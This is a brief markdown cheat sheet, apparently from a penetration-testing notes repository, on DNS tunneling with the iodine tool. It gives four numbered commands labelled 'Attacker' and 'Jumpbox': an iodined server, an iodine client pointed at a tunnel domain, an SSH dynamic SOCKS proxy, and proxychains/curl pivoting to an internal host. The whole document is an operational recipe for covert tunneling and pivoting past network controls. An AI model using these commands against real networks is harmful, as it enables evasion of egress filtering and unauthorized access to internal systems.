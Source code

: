 # DNS Tunneling (TCP over DNS)

## Tool: Iodine(d)

#### 1) Attacker: 

    sudo iodined -f -c -P PASSWORD 10.1.1.1/24

#### 2) Jumpbox: 

    sudo iodine -P PASSWORD att.tunnel.com

#### 3) Attacker: 

    ssh USER@101.1.2 -4 -f -N -D 1080

#### 4) Attacker: 

    proxychains curl http://192.168.0.100/test.php OR curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php

